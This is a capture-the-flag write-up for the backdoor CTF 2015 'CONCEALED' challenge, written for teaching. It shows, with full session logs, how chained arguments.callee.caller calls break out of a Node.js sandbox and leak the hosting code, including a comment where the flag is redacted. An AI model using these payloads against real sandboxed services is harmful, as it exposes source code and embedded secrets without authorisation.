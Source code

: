# backdoor CTF 2015: [CONCEALED](https://backdoor.sdslabs.co/challenges/CONCEALED)

**Category:** Exploit
**Points:** 225
**Author:** [Amanpreet Singh](https://backdoor.sdslabs.co/users/apsdehal)
**Difficulty:** TODO
**Solves:** 24
**Description:**

* <https://backdoor.sdslabs.co/challenges/CONCEALED>

> All paths have been concealed. Get the hidden flag: `nc hack.bckdr.in 8005`. Submit sha-256 of the flag

## Write-up

Let’s connect to the service:

```bash
$ nc hack.bckdr.in 8005
######################################
####           CONCEAL            ####
######################################

Welcome to CONCEAL
You have access to object named sandboxed and its functions
Rest everything is sandboxed, don’t be a jerk and break something
Wrap your code in a function and return what you want as output
Flag is hidden somewhere in the code.
Get the flag :D!

home@jail:$
```

The welcome message reveals that the flag is hidden in the source code running the service. Some initial testing reveals it’s a JavaScript sandbox:

```
home@jail:$ sandboxed
TypeError: Property 'sandboxed' of object #<Object> is not a function

home@jail:$ function() { return sandboxed; }
[object Object]

home@jail:$ function() { return Object.keys(sandboxed); }
readFlag,print

home@jail:$ sandboxed.readFlag
flag: wrong_flag

home@jail:$ function() { return sandboxed.readFlag; }
function () {
  text = 'flag: wrong_flag';
  return text;
}

home@jail:$ sandboxed.print
undefined

undefined

home@jail:$ function() { return sandboxed.print; }
function (data) {
  sys.print(data + '\n' + '\n');
}
```

It’s possible to crash the application, which reveals a small part of the source code, but not the flag:

```
home@jail:$ function() { return this; }

/index.js:76
                sys.print(data + '\n');
                               ^
TypeError: Cannot convert object to primitive value
    at /index.js:76:20
    at /node_modules/prompt/lib/prompt.js:316:32
    at /node_modules/prompt/node_modules/utile/node_modules/async/lib/async.js:142:25
    at assembler (/node_modules/prompt/lib/prompt.js:313:9)
    at /node_modules/prompt/lib/prompt.js:322:32
    at /node_modules/prompt/lib/prompt.js:599:5
    at Interface.onLine (/node_modules/prompt/node_modules/read/lib/read.js:111:5)
    at Interface.emit (events.js:95:17)
    at Interface._onLine (readline.js:203:10)
    at Interface.<anonymous> (readline.js:323:12)
```

In JavaScript function contexts, `arguments.callee` refers to the currently executing function. As a result, `arguments.callee.caller` refers to the function that called the current one (i.e. one level up the call stack). This enables us to find out how the sandbox wraps our input:

```
home@jail:$ function() { return String(arguments.callee.caller); }
function () {return (function() { return String(arguments.callee.caller); })()}
```

So, our input gets wrapped in `function () {return ($INPUT)()}` and executed in a sandbox. But what is the `caller` of that function?

```
home@jail:$ function() { return String(arguments.callee.caller.caller); }
function () {
        if (!(this instanceof Script)) {
          throw new TypeError('invalid call to ' + f);
        }
        return ns[f].apply(ns, arguments);
      }
```

A-ha! We’re slowly revealing more and more source code, but no flag so far.  We need to go deeper!

Eventually we end up with the following payload which reveals the flag as part of a source code comment:

```
home@jail:$ function() { return String(arguments.callee.caller.caller.caller.caller.caller.caller.caller.caller.caller); }
function (err, line) {

    // flag : [redacted]

    if (err && wait === false) {
      return callback(err);
    }

    var against = {},
        numericInput,
        isValid;

    if (line !== '') {
      if (schema.properties[propName]) {
        var type = (schema.properties[propName].type || '').toLowerCase().trim() || undefined;

        //
        // Attempt to parse input as a float if the schema expects a number.
        //
        if (type == 'number') {
          numericInput = parseFloat(line, 10);
          if (!isNaN(numericInput)) {
            line = numericInput;
          }
        }

        //
        // Attempt to parse input as a boolean if the schema expects a boolean
        //
        if (type == 'boolean') {
          if(line === "true") {
            line = true;
          }
          if(line === "false") {
            line = false;
          }
        }

        //
        // If the type is an array, wait for the end. Fixes #54
        //
        if (type == 'array') {
          var length = prop.schema.maxItems;
          if (err) {
            if (err.message == 'canceled') {
              wait = false;
              stdout.write('\n');
            }
          }
          else {
            if (length) {
              if (tmp.length + 1 < length) {
                isValid = false;
                wait = true;
              }
              else {
                isValid = true;
                wait = false;
              }
            }
            else {
              isValid = false;
              wait = true;
            }
            tmp.push(line);
          }
          line = tmp;
        }
      }

      against[propName] = line;
    }

    if (prop && prop.schema.before) {
      line = prop.schema.before(line);
    }

    // Validate
    if (isValid === undefined) isValid = prompt._performValidation(name, prop, against, schema, line, callback);

    if (!isValid) {
      return prompt.getInput(prop, callback);
    }

    //
    // Log the resulting line, append this `property:value`
    // pair to the history for `prompt` and respond to
    // the callback.
    //
    logger.input(line.yellow);
    prompt._remember(propName, line);
    callback(null, line);

    // Make sure `tmp` is emptied
    tmp = [];
  }
```

Now that we have the flag, all that’s left to do is to hash it using SHA-256 so it can be submitted:

```bash
$ printf "$flag" | sha256sum
```

## Other write-ups and resources

* <http://geeksspeak.github.io/blog/2015/04/03/backdoor-ctf-2015-concealed-writeup/>
